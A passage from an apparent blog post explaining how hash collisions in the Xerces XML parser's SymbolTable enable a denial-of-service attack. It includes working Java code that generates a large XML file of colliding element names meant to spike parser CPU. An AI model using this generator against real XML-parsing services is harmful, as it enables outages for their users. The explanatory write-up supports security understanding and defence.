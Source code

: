 So a long (or short string) is reduced to an integer value.  HashMaps and HashSets use those integer values to organise 
the data structure.

# Why are hash collisions bad?

If strings have the same hash code, then a HashMap will store it under the same key in a list.  This means that 
HashMaps are only efficient if the hash codes are sufficiently different. 

# How does this affect XML parsing?

Xerces stores "symbols" (i.e. XML elements, attributes, etc) in a SymbolTable 
([https://svn.apache.org/repos/asf/xerces/java/tags/Xerces-J_2_11_0/src/org/apache/xerces/util/SymbolTable.java](https://svn.apache.org/repos/asf/xerces/java/tags/Xerces-J_2_11_0/src/org/apache/xerces/util/SymbolTable.java)) - 
which essentially is a HashMap.

The CCC article describes how forcing a HashMap implementation to deal with collisions can lead to the CPU being spiked 
for quite a while, which makes such things the ideal candidate for Denial of Service attacks.

# The attack

Once I was armed with the knowledge about what hash collisions were and how they could be exploited, I set about creating 
a malicious XML file. I used the information from the stackoverflow article to create a little piece of code to create my malicious file

```java
public static void main(String... args) throws IOException {
    List<String> results = permute(Arrays.asList("Aa", "BB"), 3);
    try (PrintWriter out = new PrintWriter(new FileWriter("test_collision.xml"))) {
        int limit = 1400 * 1024 / format(results.get(0)).length();
        System.out.println("Creating a file with " + results.size() + " entries, limiting to " + limit);
        out.print("<root>");
        results.stream().limit(limit).forEach(e -> out.print(format(e)));
        out.print("</root>");
    }
}

private static String format(String s) {
    return String.format("<%s/>", s);
}

private static List<String> permute(List<String> strings, int iter) {
    List<String> result = new ArrayList<>(strings.size() * strings.size());
    for (String i : strings) {
        for (String j : strings) {
            result.add(i + j);
        }
    }
    if (iter == 0) {
        return result;
    }
    return permute(result, iter - 1);
}
```
